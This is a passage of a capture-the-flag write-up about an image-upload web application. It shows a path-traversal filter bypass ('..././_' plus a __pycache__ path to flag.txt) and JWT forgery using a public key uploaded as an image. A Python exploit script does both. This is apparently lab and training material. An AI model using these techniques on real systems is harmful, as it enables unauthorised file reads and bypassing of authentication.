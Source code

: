 After getting control of both of those variables, there is one last step before getting the flag.
The constructed path to the flag must be valid, and there is another factor to take into the account:

```python
sanitized_path = f'output/{upload_name}_{session["username"]}'
```

The "_" betweeen the 2 variables must be part of the path.
Since this is a python application, there will be a **__pycache__** directory at the root of the project.
This can be leveraged to construct the path: `output/../__pycache__/../flag.txt`.
As a result, the final values for the variables are:
+ `upload_name`: `..././_`, it must end in a "_" so it is a valid path by itself
+ `session["username"]`: `pycache__/../flag.txt`, no need for filter bypass since it is trusted due to **JWT**

## Putting it all together

With all of this gathered information, I can write a script that uploads my own public key to the server, forges a doctored **JWT** and tricks the application into returning the flag.
The steps are:
1. Generating a key pair:
```bash
$ openssl genrsa -out private.pem 1024
$ openssl rsa -in private.pem -pubout -out public.pem
```
2. Upload the key as an image and calculate its storage path with the MD5 hash
3. Forge a **JWT** with the username `pycache__/../flag.txt`
4. Upload an image, using that **JWT**, with the filename `..././_`

All of this can be accomplished with the following script:

```python
import requests
import hashlib
import jwt

URL = 'http://{APPLICATION_URL}'

# Upload key
name = 'img.jpg'
key = open("public.pem", "rb")
md5 = hashlib.md5(key.read()).hexdigest()
key_path = f'uploads/{md5}.jpeg'
key.close()

files = {'file': (name, open('public.pem', 'rb'))}
data = {'password': '1234', 'content': 'secret'}

s = requests.session()
s.get(URL)
r = s.post(URL + '/upload', files=files, data=data)


# Get flag
name = '..././_'
username = 'pycache__/../flag.txt'
priv = open("private.pem").read()
token = jwt.encode({'username': username}, priv, algorithm='RS256', headers={'pubkey': f'/app/{key_path}'})
s.cookies['session'] = token

# img.jpg is a valid image
files = {'file': (name, open('img.jpg', 'rb'))} 
data = {'password': '1234', 'content': 'secret'}
```
